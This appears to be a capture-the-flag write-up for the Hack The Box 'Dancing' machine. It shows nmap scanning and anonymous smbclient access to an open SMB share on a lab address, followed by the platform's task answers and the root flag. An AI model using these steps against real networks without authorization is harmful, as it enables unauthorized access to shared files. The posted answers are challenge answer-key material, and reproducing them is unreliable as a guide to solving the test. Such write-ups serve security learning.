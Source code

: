 ```yaml
---
layout: single
title: Dancing - Hack The Box
excerpt: "In this machine we are taking advantage of resource sharing misconfiguration in SMB service."
date: 2025-03-09
classes: wide
header:
  teaser: /img2/dancing.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Very Easy
tags:
  - SMB
---
```


![](/img2/Pasted%20image%2020250309174721.png)

## Introduction

> In this machine we are taking advantage of resource sharing misconfiguration in SMB service. 

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.77.89
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.77.89
```

![](/img2/Pasted%20image%2020250309172957.png)

- See available sources with smbclient

```bash
smbclient -L 10.129.77.89 -N
```

![](/img2/Pasted%20image%2020250309173756.png)

## Exploitation

```bash
smbclient //10.129.77.89/WorkShares -N
```

![](/img2/Pasted%20image%2020250309173908.png)

## Task

1. What does the 3-letter acronym SMB stand for?
> server message block

2. What port does SMB use to operate at?
> 445

3. What is the service name for port 445 that came up in our Nmap scan?
> microsoft-ds

4. What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
> -L

5. How many shares are there on Dancing?
> 4

6. What is the name of the share we are able to access in the end with a blank password?
> WorkShares

7. What is the command we can use within the SMB shell to download the files we find?
> get

8. Submit root flag
> 5f61c10dffbc77a704d76016a22f1664

![](/img2/Pasted%20image%2020250309174551.png)

